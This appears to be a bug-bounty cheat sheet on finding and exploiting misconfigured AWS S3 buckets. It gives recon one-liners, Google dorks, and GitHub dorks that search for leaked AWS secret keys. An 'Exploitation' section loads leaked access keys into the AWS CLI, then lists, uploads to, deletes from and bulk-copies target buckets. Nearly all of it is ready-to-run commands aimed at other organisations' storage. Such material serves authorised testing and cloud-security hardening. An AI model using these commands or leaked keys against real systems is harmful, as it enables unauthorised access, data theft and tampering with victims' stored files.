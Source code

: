 

Bucket enumeration :
```bash
assetfinder --subs-only canva.com | httprobe | anew hosts; meg -d 1000 -v /; gf s3-buckets
ruby lazys3.rb <COMPANY> 
```


%c0 error character in url :
```bash
https://target.com/%c0
```

- Check wapplayzer extension
- Check the source code of application search for s3 in source code.
- Right-click on any image of the target application and open image in new tab. If the image URL looks like this: http://xyz.s3.amazonaws.com/images/b1.gif
- look for headers :
```bash
x-amz-bucket-region
x-amz-request-id
x-amz-id-2
```


some google dorking :
```bash
site:http://s3.amazonaws.com intitle:index.of.bucket
site:http://amazonaws.com inurl:".s3.amazonaws.com/"
site:.s3.amazonaws.com "Company"
intitle:index.of.bucket
site:http://s3.amazonaws.com intitle:Bucket loading
site:*.amazonaws.com inurl:index.html
Bucket Date Modified



site:s3.amazonaws.com "target.com"
site:*.s3.amazonaws.com "target.com"
site:s3-external-1.amazonaws.com "target.com"
site:s3.dualstack.us-east-1.amazonaws.com "target.com"
site:amazonaws.com inurl:s3.amazonaws.com 
site:s3.amazonaws.com intitle:"index of"  
site:s3.amazonaws.com inurl:".s3.amazonaws.com/"  
site:s3.amazonaws.com intitle:"index of" "bucket"

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
```

auotmated tools and command :
https://github.com/Atharv834/S3BucketMisconf
https://github.com/gwen001/s3-buckets-finder
https://github.com/VirtueSecurity/aws-extender
https://github.com/mxm0z/awesome-sec-s3
```bash
subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
subfinder -d target.com -all -silent | nuclei -t /home/somx/.local/nuclei-templates/http/technologies/s3-detect.yaml

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u


cewl https://site.com/ -d 3 -w file.txt
s3scanner -bucket-file file.txt -enumerate -threads 10 | grep -aE 'AllUsers: \[.*(READ|WRITE|FULL).*]'


./cloud_enum.py -k somecompany -k somecompany.io -k blockchaindoohickey
 s3enum -wordlist examples/wordlist.txt -suffixlist examples/suffixlist.txt -threads 10 hackerone


```


github dorking :
```bash
org:target "amazonaws"
org:target "bucket_name" 
org:target "aws_access_key"
org:target "aws_access_key_id"
org:target "aws_key"
org:target "aws_secret"
org:target "aws_secret_key"
org:target "S3_BUCKET"
```


use online tools :
https://buckets.grayhatwarfare.com/
https://osint.sh/buckets/

chrome extension:
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en



Exploitation :
configure enviornment:
```bash
aws configure
#enter the leaked id
#enter the leadked api key
```


Buckets with "Full Control" permission allow file uploads and deletions which could lead to security risks.
```bash
aws s3api get-bucket-acl — bucket <bucket-name>


#read and write 
aws s3 ls s3://[bucketname] --no-sign-request
aws s3 cp file.txt s3://[bucketname] --no-sign-request
aws s3 rm s3://[bucketname]/file.txt --no-sign-request
aws s3 cp s3://[bucketname]/ ./ --recursive --no-sign-request
aws s3 mv <file> s3://<bucket-name>

```